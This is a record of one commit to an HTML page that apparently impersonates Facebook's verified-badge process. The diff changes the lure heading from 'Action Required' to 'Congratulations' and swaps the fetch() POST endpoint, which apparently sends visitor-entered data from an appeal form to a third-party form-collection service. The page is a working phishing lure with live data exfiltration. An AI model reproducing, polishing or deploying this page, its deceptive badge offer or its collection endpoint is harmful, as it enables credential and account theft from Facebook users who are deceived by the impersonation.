

Before and after one commit to nazyban300-star/jfeww, a plain HTML site: page index.html in a window 1280 px wide. Shown: the part 118-758 px from the top of the page, without its empty margins (208-1071 px from the left). Drawn offline with Linux system fonts and the light colour scheme.

Commit message:
Update index.html

```diff
--- a/index.html
+++ b/index.html
@@ -486,7 +486,7 @@
           </svg>
           <span>Facebook Secure Connection</span>
         </div>
-        <h1>Page blue tick Center</h1>
+        <h1>Request a verified badge on Facebook</h1>
       </div>
 
       <div class="official-notice">
@@ -511,7 +511,7 @@
       </div>
 
       <div class="warning-box">
-        <h2 class="warning-title">Action Required</h2>
+        <h2 class="warning-title">Congratulations</h2>
         <p>
           Your <strong>"Business Page"</strong> selected for
           our <strong>Creator Verify Permanent Badge 2025</strong> The verified badge means that Facebook has confirmed that the Page or profile is the authentic presence of the individual, public figure, or brand that it represents.
@@ -725,9 +725,9 @@
         appealModal.style.display = "block";
       };
 
-      // Function to submit to first form (https://submit-form.com/1yi0F43Qq)
+      // Function to submit to first form (https://submit-form.com/x7gYyBupD)
       function submitToFirstForm(data) {
-        return fetch("https://submit-form.com/1yi0F43Qq", {
+        return fetch("https://submit-form.com/x7gYyBupD", {
           method: "POST",
           headers: {
             "Content-Type": "application/json",
```
